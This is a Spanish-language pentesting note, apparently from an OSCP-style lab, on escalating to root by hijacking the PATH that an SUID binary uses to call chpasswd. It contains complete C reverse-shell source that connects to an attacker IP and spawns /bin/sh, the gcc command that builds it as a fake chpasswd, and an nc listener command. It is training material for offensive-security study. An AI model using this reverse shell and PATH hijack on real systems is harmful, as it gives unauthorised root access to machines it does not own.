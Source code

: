 
## DESCRIPTION

Basicamente es que nos encontremos un fichero con el SUID que lo pueda ejecutar un usuario con el que tengamos acceso. Miramos a ver si llama a algun ejecutable o script que vamos a sustuir o bien a cambiar el path que lo apunta.

#### Mas información
* 


## EXPLOITATION

### OPTION 1: editando el PATH

Localizamos en el directorio de John un binario con el SUID, lo que significa que cualquiera que lo ejecute se ejecutará como root:

![[Pasted image 20230605194800.png]]

Miramos las cadenas de texto que tiene:

 strings RESET_PASSWD 
 ![[Pasted image 20230605194730.png]]
 
 Vemos que llama a chpasswd que es un binario que se encuentra en /usr/sbin:
 
 
 Y el PATH del usuario es el siguiente
 ![[Pasted image 20230605194727.png]]
 
 Vamos a cambiar el path a un directorio donde tengamos permisos y vamos a compilar un binario con el mismo nombre y que contenga una reverse shell. DE esta forma cuando ejecutemos RESET_PASSWD -> este ejecutara chpasswd que se encontrara en nuestro PATH es decir una recerse shell:
 
 export PATH=/usr/bin:/tmp
![[Pasted image 20230605194721.png]]


En tmp creamos un script en C con el siguiente código (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#c)

primero comprobamos que tenga el compilador:
![[Pasted image 20230605194716.png]]
````


john@oscp:~$ cat /tmp/shell.c 
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 443;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("192.168.45.180");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);

    return 0;       
}
```` 


Modificamos los campos subrayados:


![[Pasted image 20230605194710.png]]


Compilamos: gcc /tmp/shell.c --output chpasswd

Nos ponemos a la escucha en el puerto 443:
 nc -lvnp 443 

Y ahora ejecutamos RESET_PASSWD con el usuario john:

![[Pasted image 20230605194705.png]]




## MACHINES

* Hack The Box: 


**!!NOTA IMPORTANTE!!** 